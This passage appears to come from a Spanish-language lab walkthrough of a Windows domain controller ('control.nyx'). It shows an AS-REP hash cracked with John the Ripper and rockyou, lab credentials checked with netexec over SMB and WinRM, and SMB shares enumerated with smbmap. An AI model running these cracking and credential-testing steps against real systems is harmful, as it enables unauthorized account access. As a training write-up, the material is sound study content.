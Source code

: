 ```console
john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
101Music         ($krb5asrep$23$b.lewis@CONTROL.NYX)
1g 0:00:00:12 DONE (2024-11-23 14:57) 0.08326g/s 1120Kp/s 1120Kc/s 1120KC/s 101eagles..1019904
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Se ve que este usuario no tiene una contraseña robusta y la conseguimos crackear, y tenemos credenciales.

```
b.lewis:101Music
```

Las podemos comprobar con `netexec` y vemos que son válidas.

```console
nxc smb 192.168.2.6 -u b.lewis -p 101Music
SMB         192.168.2.6     445    CONTROLER        [*] Windows 10 / Server 2019 Build 17763 x64 (name:CONTROLER) (domain:control.nyx) (signing:True) (SMBv1:False)
SMB         192.168.2.6     445    CONTROLER        [+] control.nyx\b.lewis:101Music
```

Pero este usuario no pertenece al grupo `Remote Management Users` por lo cual no podemos conseguir una consola interactiva mediante el protocolo WinRM.

```console
nxc winrm 192.168.2.6 -u b.lewis -p 101Music
WINRM       192.168.2.6     5985   CONTROLER        [*] Windows 10 / Server 2019 Build 17763 (name:CONTROLER) (domain:control.nyx)
WINRM       192.168.2.6     5985   CONTROLER        [-] control.nyx\b.lewis:101Music
```

# Enumerating SMB (authenticated)
No encontramos ningún recurso interesante mediante el SMB.
```console
smbmap -H 192.168.2.6 -u 'b.lewis' -p '101Music'

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)

[+] IP: 192.168.2.6:445	Name: control.nyx         	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share
	SYSVOL                                            	READ ONLY	Logon server share
```
